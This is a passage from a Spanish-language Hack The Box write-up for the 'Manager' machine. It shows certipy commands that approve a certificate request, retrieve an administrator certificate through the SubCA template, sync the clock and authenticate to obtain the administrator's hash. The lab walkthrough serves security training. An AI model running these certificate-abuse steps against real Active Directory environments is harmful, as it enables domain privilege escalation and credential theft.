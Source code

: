 	 -p -> específica el password.  
	 -template -> específica el certificate template.  
	 -upn -> específica el usuario objetivo del cual queremos obtener sus permisos.   
{: .prompt-info }
Arroja un error de permisos y también el  `id de la solitud ` realizada.  
![Desktop View](/writeup-htb-manager/req.png)
_Certipy req_
Anotamos el id de la solicitud porque vamos a aprobar la solicitud y esto lo hacemos con la opción `ca` e `issue-request` de certipy.  
```bash
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 16 -u raven@manager.htb -p '**********************' -dc-ip 10.10.11.236 
```
> Donde:  
	 -issue-request -> sirve para aprobar una solicitud, en este caso, la solicitud a aprobar es la 16.  
	 -ca -> específica el Certificate Authorities(CA).  
	 -u -> específica el usuario seguido de @ y luego el dominio.  
	 -p -> específica el password.  
	 -dc-ip -> específica la ip de la máquina víctima.    
{: .prompt-info }
La solicitud se aprobó con éxito.  
![Desktop View](/writeup-htb-manager/issue.png)
_issue-request_
Procedemos a recuperar el certificado emitido con el id de la solicitud que fue aprobada.  
```bash
certipy-ad req -u 'raven@manager.htb' -p '**********************' -ca 'manager-DC01-CA' -target 10.10.11.236 -template SubCA -upn 'administrator@manager.htb' -retrieve 16
```
> Donde:  
	 -retrieve -> recupera un certificado emitido el cual esta especificado por un ID de solicitud.  
	 -target -> específica ip de la máquina víctima.  
	 -ca -> específica Certificate Authorities(CA).  
	 -u -> específica el usuario seguido de @ y luego el dominio.  
	 -p -> específica el password.  
	 -template -> específica el certificate template.  
	 -upn -> específica el usuario objetivo del cual queremos obtener sus permisos.   
{: .prompt-info }
Se obtuvo el certificado con éxito y se guardo como `administrator.pfx`.  
![Desktop View](/writeup-htb-manager/retrieve.png)
_retrieve_
Con este archivo podemos autenticarse en el sistema, para esto usamos la opción `auth` de certipy.  
```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
> Donde:  
	 -pfx -> específica el archivo pfx.  
	 -dc-ip -> específica la ip de la máquina víctima.     
{: .prompt-info }
Nos aparece un error de `clock skew too great`.  
![Desktop View](/writeup-htb-manager/error.png)
_Error_
Este error es producido por diferencias horarias entre nuestra máquina y la máquina víctima, para solucionar esto ejecutamos el siguiente comando.  
```bash
sudo ntpdate 10.10.11.236
```
![Desktop View](/writeup-htb-manager/ntpdate.png)
_ntpdate_
Procedemos a ejecutar el comando anterior para autenticarse en el sistema.  
```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
Se ejecutó correctamente y obtenemos el hash del usuario administrator.  